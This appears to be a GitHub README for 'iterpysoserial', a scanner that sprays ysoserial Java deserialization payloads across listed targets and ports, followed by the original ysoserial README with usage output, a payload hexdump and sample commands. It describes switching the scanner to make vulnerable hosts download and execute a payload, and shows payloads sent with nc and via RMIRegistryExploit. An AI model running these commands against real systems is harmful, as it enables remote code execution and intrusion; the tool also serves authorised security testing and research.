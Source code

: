# iterpysoserial 

Default settings will throw the RMIRegistryExploit and Jdk7u21 payload combination over the ports listed in ports.txt against the systems you've defined in targets.txt. 

You must define targets in targets.txt

You must define a webhost (--host), this will listen for connections or serve up your ps1/elf.

You must define a webhost port (--port), this is the port that victim will connect to your webhost on. 


This should be considered a scanner and so a lot of noise should be expected. If you use python (SimpleHTTPServer) to listen for connections be sure to save your scan results. Else, use apache and check your logs. 

For pwnage, comment out the first command that tells your webhost which system is vulnerable to what and uncomment out the second command which will download and execute a payload. There is also a set of commands you can walk through to exploit linux/aix systems.

If you're so inclined, feel free to use all the payloads instead of only Jdk7u21. I haven't played with a lot of the newer payloads that are included now, but my experience from when this was relatively new showed that more than 90% of the time if Groovy1 or any of the Sping or CommonCollections payloads worked, so did Jdk7u21. 


  usage: iterpysoserial.py [-h] [--targets TARGETS] [--ports PORTS]
                         [--exploits EXPLOITS] [--payloads PAYLOADS] --host
                         HOST --port PORT

  ysoserial iterator. Defaults will scan targets.txt on the ports listed in
  ports.txt, using the Jdk7u21 payload and RMIRegistryExploit combination.
  Vulnerable Windows systems will make a web connection to your specified
  webhost and specified port informing you of which systems are vulnerable, on
  which port, and which payload/exploit combintation.
  
  optional arguments:
    -h, --help           show this help message and exit
    --targets TARGETS    File containing a list of targets. Default=targets.txt
    --ports PORTS        File containing a list of ports to try on each target.
                         Default=ports.txt
    --exploits EXPLOITS  File containing exploits to use.
                         Default=RMIRegistryExploit.txt
    --payloads PAYLOADS  File containing payloads to use. Default=Jdk7u21.txt
    --host HOST          Webhost
    --port PORT          Webhost Port



# ysoserial 

[![Join the chat at https://gitter.im/frohoff/ysoserial](https://badges.gitter.im/frohoff/ysoserial.svg)](https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge) [![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x). 
Later updated to include additional gadget chains for [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and [Apache Commons Beanutils](https://gist.github.com/frohoff/9eb8811761ff989b3ac0).

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.4-all.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
        Available payload types:
                BeanShell1 [org.beanshell:bsh:2.0b5]
                CommonsBeanutilsCollectionsLogging1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
                CommonsCollections1 [commons-collections:commons-collections:3.1]
                CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections3 [commons-collections:commons-collections:3.1]
                CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
                Groovy1 [org.codehaus.groovy:groovy:2.3.9]
                Jdk7u21 []
                Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
```

## Examples

```shell
$ java -jar ysoserial-0.0.4-all.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:
       
$ java -jar ysoserial-0.0.4-all.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 < groovypayload.bin

$ java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from [JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) [![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) .

Note that GitHub-hosted releases were removed in compliance with the [GitHub Community Guidelines](https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request
